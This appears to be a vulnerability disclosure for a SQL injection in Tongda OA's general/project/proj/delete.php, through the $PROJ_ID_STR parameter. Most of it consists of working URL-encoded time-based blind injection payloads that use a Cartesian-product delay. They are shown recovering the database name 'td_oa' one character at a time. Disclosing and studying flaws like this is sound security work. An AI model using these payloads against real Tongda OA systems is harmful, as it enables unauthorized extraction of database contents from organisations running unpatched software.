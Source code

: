 SQL injection vulnerability exists in Tongda OA

version:Versions below v11.10 and v2017

1.
Route: general/project/proj/delete.php

There is an injected parameter: $PROJ_ID_STR

The code here is very concise. When $PROJ_ID_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![image](https://github.com/Bobjones7/cve/assets/127505769/65055ecb-68a6-46cc-ade4-47f289c10bbe)

2.Payload

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/Bobjones7/cve/assets/127505769/0f9216da-934f-495a-a417-8579938ab250)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

The third digit is the character _

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

The fourth digit is the character o

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
The fifth digit is the character a
```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Bobjones7/cve/assets/127505769/0e4769e2-01ce-4c40-81d6-7d822630c9e1)

Then through blind injection, you can determine that the database name is: td_oa


